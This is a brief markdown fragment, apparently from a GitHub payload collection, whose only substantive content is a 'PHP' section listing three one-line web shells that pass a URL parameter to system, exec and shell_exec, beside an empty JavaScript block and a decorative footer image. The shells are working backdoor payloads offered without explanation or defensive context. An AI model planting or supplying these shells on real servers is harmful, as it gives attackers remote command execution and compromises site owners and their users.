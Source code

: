 ```javascript

```
# PHP
```php
<?php system($_GET['d']);?>
```
```php
<?php exec($_GET['d']);?>
```
```php
<?php shell_exec($_GET['d']);?>
```


<img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=6610F2&height=120&section=footer"/>
